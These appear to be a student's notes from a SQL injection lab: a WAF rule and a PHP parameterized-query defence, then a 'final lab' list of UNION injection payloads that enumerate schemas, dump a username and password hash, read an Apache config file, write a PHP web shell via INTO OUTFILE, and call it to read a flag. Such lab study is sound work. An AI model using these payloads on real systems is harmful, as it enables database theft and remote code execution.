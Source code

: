 Web Application Firewall

- detect malicious input and reject any HTTP requests containing SQLi attempts
- ModSecurity, Cloudflare, etc.
- For example, any request containing the string `INFORMATION_SCHEMA` should be rejected

Parameterized Queries

- Queries with placeholder for input data
- Input data is escaped before passing to SQL query

```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username=? AND password = ?" ;
  $stmt = mysqli_prepare($conn, $query);
  mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
  mysqli_stmt_execute($stmt);
  $result = mysqli_stmt_get_result($stmt);

  $row = mysqli_fetch_array($result);
  mysqli_stmt_close($stmt);
<SNIP>
```

- placeholders marked with `?`
- `mysqli_stmt_bind_param()`
    - Bind username and password input data
    - To the SQL query with that function
    - This will safely escape any quotes and place the values in the query

Queries for final lab

```
' UNION select * from INFORMATION_SCHEMA.SCHEMATA-- 

' UNION select NULL, TABLE_NAME , TABLE_SCHEMA, NULL, NULL from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='ilfreight'-- 

' UNION select NULL, COLUMN_NAME , TABLE_NAME, TABLE_SCHEMA, NULL from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- 

' UNION select NULL, username , password, NULL, NULL from ilfreight.users-- 
adam 1be9f5d3a82847b8acca40544f953515

' UNION select NULL, LOAD_FILE('/etc/apache2/apache2.conf') , NULL, NULL, NULL from ilfreight.users-- 

' UNION select NULL, USER() , NULL, NULL, NULL from ilfreight.users-- 

' UNION SELECT NULL,'<?php system($_REQUEST[0]); ?>', NULL, NULL, NULL FROM ilfreight.users INTO OUTFILE '/var/www/html/dashboard/shell.php'-- 

http://94.237.57.115:35553/dashboard/shell.php?0=cat%20../../../../../flag_cae1dadcd174.txt
```
